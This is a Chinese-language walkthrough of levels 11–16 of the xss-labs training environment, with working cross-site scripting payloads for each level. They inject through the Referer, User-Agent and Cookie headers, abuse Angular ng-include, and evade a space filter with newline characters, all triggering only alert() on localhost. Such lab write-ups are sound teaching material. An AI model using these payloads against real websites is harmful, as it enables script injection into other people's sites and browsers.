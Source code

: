 

### 第 11 关：Referer 注入

解题思路：修改 Referer（标签属性闭合 + 注入事件属性）

```js
// 修改前的结果：
Referer: http://localhost/xss-labs/level10.php?t_sort=%22%20onclick=%22alert()%22%20type=%22
// 修改后的结果：
// 第 1 个双引号用于闭合 value 属性的第一个双引号，即构成 value=""
// 最后 1 个双引号用于闭合 value 属性的最后一个双引号，即构成 type=""，进而令后面的 type="hidden" 失效，使 input 输入框显示在页面中，为最后点击输入框导致弹窗做准备！
Referer: " onclick="alert()" type="
```



### 第 12 关：UA 注入

解题思路：修改 User-Agent（标签属性闭合 + 注入事件属性）

```js
// 修改前的结果：
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
// 修改后的结果：
// 第 1 个双引号用于闭合 value 属性的第一个双引号，即构成 value=""
// 最后 1 个双引号用于闭合 value 属性的最后一个双引号，即构成 type=""，进而令后面的 type="hidden" 失效，使 input 输入框显示在页面中，为最后点击输入框导致弹窗做准备！
User-Agent: " onclick="alert()" type="
```



### 第 13 关：Cookie 注入

解题思路：修改 Cookie（标签属性闭合 + 注入事件属性）

```js
// 修改前：
Cookie value: call+me+maybe%3F
// 修改后：
// 第 1 个双引号用于闭合 value 属性的第一个双引号，即构成 value=""
// 最后 1 个双引号用于闭合 value 属性的最后一个双引号，即构成 type=""，进而令后面的 type="hidden" 失效，使 input 输入框显示在页面中，为最后点击输入框导致弹窗做准备！
Cookie value: " onclick="alert()" type="
```



### 第 15 关：Angular `ng-include`

解题思路：利用 `ng-include` 的特性 + 注入带事件属性的 html 标签

```js
http://localhost/xss-labs/level15.php?src='./level1.php?name=<img src=1 onerror=alert()>'
// or
http://localhost/xss-labs/level15.php?src='./level1.php?name=<span onclick="alert()">H1</span>'
```



### 第 16 关：空格过滤

解题思路：利用换行符 `%0A` 代替空格 + 注入带事件属性的 html 标签

```js
http://localhost/xss-labs/level16.php?keyword=<img%0Asrc=1%0Aonerror=alert()>
// or
http://localhost/xss-labs/level16.php?keyword=<span%0Aonclick="alert()">ClickIt</span>
```
